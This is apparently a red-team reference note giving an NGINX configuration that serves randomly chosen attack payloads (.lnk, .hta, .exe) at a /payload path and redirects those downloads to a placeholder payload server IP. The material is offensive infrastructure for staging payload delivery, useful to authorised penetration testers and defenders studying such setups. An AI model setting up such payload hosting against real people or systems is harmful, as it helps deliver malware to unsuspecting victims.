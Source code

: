 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - red-team-infrastructure
---
```

# Hosting Payloads

```
# Serving Random Payloads with NGINX
# add set_random module https://github.com/openresty/set-misc-nginx-module#set_random
# edit file /etc/nginx/sites-enabled/default

set_random $uri 1 3;

map $uri $payloads {
    1 /payload.lnk;
    2 /payload.hta;
    3 /payload.exe;
}

server {
        listen 80 default_server;
        listen [::]:80 default_server;

        server_name _;

        root /var/www;

        index index.html;

        location ^/payload/?$ {
            rewrite ^/payload/?$ /$payloads redirect;
        }

        location ^/payload\.(exe|lnk|hta) {
            rewrite ^/payload\.(exe|lnk|hta) http://PAYLOAD_SERVER_IP$request_uri redirect;
        }

        location / {
                try_files $uri $uri/ =404;
        }
}
```

---
## References

### Source Repositories

- [jivoi: Serving Random Payloads with NGINX](https://gist.github.com/jivoi/a33ace2e25515a31aa2ffbae246d98c9)